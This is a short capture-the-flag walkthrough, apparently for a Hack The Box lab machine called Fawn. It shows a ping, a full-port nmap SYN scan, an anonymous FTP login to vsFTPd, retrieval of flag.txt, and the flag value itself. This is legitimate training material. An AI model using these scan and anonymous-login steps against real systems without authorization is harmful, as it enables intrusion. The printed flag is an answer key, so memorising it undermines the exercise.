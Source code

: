 ![Fawn.png](/assets/fawn.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.166.28
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.166.28
```

**Output**
```bash
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

3. Connect with **ftp**
```bash
┌──(root㉿kali)-[/home/kali]
└─| ftp 10.129.166.28 
Connected to 10.129.166.28.
220 (vsFTPd 3.0.3)
Name (10.129.166.28:kali):
```
+ In `Name (10.129.166.28:kali):` write **anonymous**.
+ We do this to access to system without password.


4. List files of system and get the `flag.txt` file.
```bash
ftp> ls
229 Entering Extended Passive Mode (|||12844|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
```

5. Go to path **/home/kali** list files and read `flag.txt` 
```bash
┌──(root㉿kali)-[/home/kali]
└─| cat flag.txt           
035db21c881520061c53e0536e44f815 

```



**By: EsT**